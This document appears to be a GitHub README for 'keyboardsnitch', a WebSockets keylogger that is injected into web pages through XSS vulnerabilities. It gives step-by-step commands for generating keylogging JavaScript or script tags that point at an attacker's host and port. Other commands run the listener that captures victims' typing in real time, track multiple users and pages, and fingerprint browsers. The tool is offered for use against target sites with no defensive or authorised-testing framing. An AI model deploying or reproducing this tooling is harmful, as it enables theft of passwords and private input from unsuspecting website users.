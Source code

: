 #keyboardsnitch

An easy to use __WebSockets__ keylogger for exploiting XSS vulnerabilities. Fast, reliable, and deadly accurate.

#Key Features

- Easily generate keylogging Javascript code to inject into web apps vulnerable to XSS
- Easily generate script tags linking to keylogging Javascript code to inject into web apps vulnerable to XSS. Easily host keylogger without additional middleware such as __nginx__ or __apache__.
- Smart realtime keylogging shows you exactly where the user is typing at any given moment
- Smart realtime keylogging shows you the exact contents of every text field that the user is viewing at any given moment
- Fully grepable output
- Able to distinguish between keystrokes coming from multiple users and web apps
- Capable of fingerprinting users' browsers
- Interactive Mode included

#Setup

Dependencies can be installed by running:

	pip install -r pip.req

#Usage Instructions

##Step 1 - Inject link to WebSockets source into target page

Run __keyboardsnitch__ with the --ws-source flag to generate a link to the __WebSockets__ source code. 

	python keyboardsnitch.py --ws-source

Copy the script tag into your clipboard and inject into the vulnerable web page. Depending on the nature of the XSS vulnerability you are exploiting, you may have to modify this script tag.

##Step 2 - Inject keylogger into target page

__keyboardsnitch__ provides two methods of injecting its keylogging JavaScript code. You can choose to inject the keylogging JavaScript code directly into the target page, or you can inject a script tag that links to the JavaScript code hosted externally.

###Option 1 - Inject Raw Source Code

To generate a keylogger that can be injected directly into the target page, use the following command:

	python keyboardsnitch.py --inject-code --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger>

__keyboardsnitch__ will automatically modify the keylogger's source code to include your ip/domain and port number.

Example:
	
	python keyboardsnitch.py --inject-code --lhost 123.123.123.1 --lport 80

###Option 2 - Inject Script Tag

Should you want to inject script tag instead of raw source code, __keyboardsnitch__ makes it easy to do that too. __keyboardsnitch__ can serve the keylogger as a JavaScript file without any additional configuration.

To generate a script tag linking to the keylogger, use the following command:

	python keyboardsnitch.py --inject-tag --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger>

As with the __WebSockets__ script tag, the generated script tag may require additional configuration or modification.

Example:

	python keyboardsnitch.py --inject-tag --lhost 123.123.123.1 --lport 80


##Step 3 - Run Server and Log Keystrokes

Once the keylogger has been injected into the target web page, we start __keyboardsnitch__'s server component to start logging keystrokes.

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger>

When a user begins typing into a text field on the target web page, the contents of that text field will be shown in real time. Additionally, information about the text field is displayed so that you can identify what is being typed where.


###Addtional Display Options - Quick Reference

If you are targeting a page visited by multiple users, use this command:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --clients

If you are injecting the keylogger into multiple pages, use this command:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --hosts

If you are injecting the keylogger into multiple pages and expect those pages to be visited by multiple users, use this command:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --clients --hosts

If you want information about users' web browsers, use the --user-agents flag along with whatever other flags you choose to include:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --clients --hosts --user-agents

#Interactive Mode

You can also run __keyboardsnitch__ in Interactive Mode by using the --wizard flag:

	python keyboardsnitch.py --wizard

Interactive Mode will walk you through steps 1, 2, 3 shown above.
